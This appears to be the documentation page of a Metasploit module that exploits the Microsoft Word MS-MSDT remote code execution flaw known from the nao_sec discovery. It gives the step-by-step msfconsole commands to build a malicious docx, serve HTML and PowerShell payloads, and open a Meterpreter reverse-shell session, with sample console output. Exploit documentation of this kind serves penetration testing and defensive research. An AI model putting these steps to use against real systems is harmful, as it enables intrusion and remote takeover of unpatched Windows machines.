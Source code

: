 This vulnerability exploit a Remote Code Execution in Microsoft Word.

The vulnerability came to light after an independent cybersecurity research team known as nao_sec
uncovered a Word document (`05-2022-0438.doc`) that was uploaded to VirusTotal from an IP address in Belarus.

The document uses the remote template feature to fetch an `HTML` and then uses the `ms-msdt` scheme to execute `PowerShell` code.

## Vulnerable Application

Waiting more informations when the CVE will be assigned.

### Make your lab

You need official version of Microsoft Office installed. And stay unpatched for this.

Tested on Microsoft Windows 10 1909 w/ Microsoft Office Word 2016.

## Verification Steps

1. Start `msfconsole`
2. `use exploit/windows/fileformat/word_msdtjs_rce`
3. `set SRVHOST [IP]`
4. `set LHOST [IP]`
5. `run`

## Options

**CUSTOMTEMPLATE**

A DOCX file that will be used as a template to build the exploit.

**OBFUSCATE**

Obfuscate JavaScript content. Default: true

## Scenarios

### Basic use

1. Generate the exploit as following.

```
[*] Started reverse TCP handler on 172.20.32.36:4444 
[*] Using URL: http://172.20.32.36:8080/1GWqOqp7e1
[*] Server started.
[*] Generate a malicious docx file
[*] Using template '/tmp/payload.docx'
[*] Parsing item from template: docProps/
[*] Parsing item from template: docProps/core.xml
[*] Parsing item from template: docProps/app.xml
[*] Parsing item from template: word/
[*] Parsing item from template: word/theme/
[*] Parsing item from template: word/theme/theme1.xml
[*] Parsing item from template: word/styles.xml
[*] Parsing item from template: word/settings.xml
[*] Parsing item from template: word/document.xml
[*] Parsing item from template: word/_rels/
[*] Parsing item from template: word/_rels/document.xml.rels
[*] Parsing item from template: word/fontTable.xml
[*] Parsing item from template: word/webSettings.xml
[*] Parsing item from template: _rels/
[*] Parsing item from template: _rels/.rels
[*] Parsing item from template: [Content_Types].xml
[*] Injecting payload in docx document
[*] Finalizing docx 'msf.docx'
[+] msf.docx stored at /home/[REDACTED]/.msf4/local/msf.docx
[*] Powershell command length: 3724
```

2. Open the DOCX document on a remote vulnerable system.

```
[*] 172.20.7.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.7.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.7.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_msdtjs_rce - Sending HTML Payload
[*] 172.20.7.36      word_msdtjs_rce - Obfuscate JavaScript content
[*] 172.20.7.36      word_msdtjs_rce - Sending PowerShell Payload
[*] Sending stage (200262 bytes) to 172.20.32.36
[*] Meterpreter session 1 opened (172.20.32.36:4444 -> 172.20.32.36:42674 ) at 2022-05-30 19:32:37 +0400
```

## References

  1. <https://www.reddit.com/r/blueteamsec/comments/v06w2o/suspected_microsoft_word_zero_day_in_the_wild/>
  2. <https://twitter.com/nao_sec/status/1530196847679401984?t=3Pjrpdog_H6OfMHVLMR5eQ&s=19>
